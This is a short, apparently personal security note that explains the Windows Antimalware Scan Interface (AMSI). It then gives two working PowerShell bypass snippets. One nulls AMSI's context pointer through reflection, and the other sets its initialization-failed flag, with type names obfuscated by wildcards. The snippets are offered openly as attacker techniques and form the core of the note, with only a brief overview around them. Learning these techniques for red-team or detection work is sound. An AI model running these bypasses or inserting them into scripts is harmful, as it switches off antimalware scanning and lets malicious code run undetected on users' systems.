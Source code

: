 
>[!info]
>This note is still in development.

### Overview
---

AMSI stands for "Antimalware Scan Interface" and is the predominant defense against malicious PowerShell scripts and tools on Windows systems.

When a script is executed in a supported environment (e.g., a PowerShell script), the script content can be passed to the installed antivirus or antimalware software via AMSI for scanning before execution. If malicious code is detected, the execution can be blocked.

(This is separate from Windows Defender Real-time Protection or anything being downloaded to/executed from disk.)

Because of this, a key goal for attackers is to bypass AMSI.

### PowerShell Example(s)
---

- **Example Bypass #1**: Setting AMSI context to null.
```powershell
# Works in both PowerShell and PowerShell Core
$Var = [Ref].Assembly.GetTypes() | %{if ($_.Name -like "*Am*s*ils*") {$_.GetFields("NonPublic,Static") | ?{$_.Name -like "*ontext"}}}
[IntPtr]$Ptr=$Var.GetValue($NULL); [Int32[]]$Buff=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($Buff, 0, $Ptr, 1)
```


- **Example Bypass #2**: Telling AMSI that initialization failed.
```powershell
# Does not work in PowerShell Core
$Var = [Ref].Assembly.GetTypes() | %{if ($_.Name -like "*Am*s*ils*") {$_.GetFields("NonPublic,Static") | ?{$_.Name -like "*ailed*"}}}
$Var.SetValue($NULL,$TRUE)
```
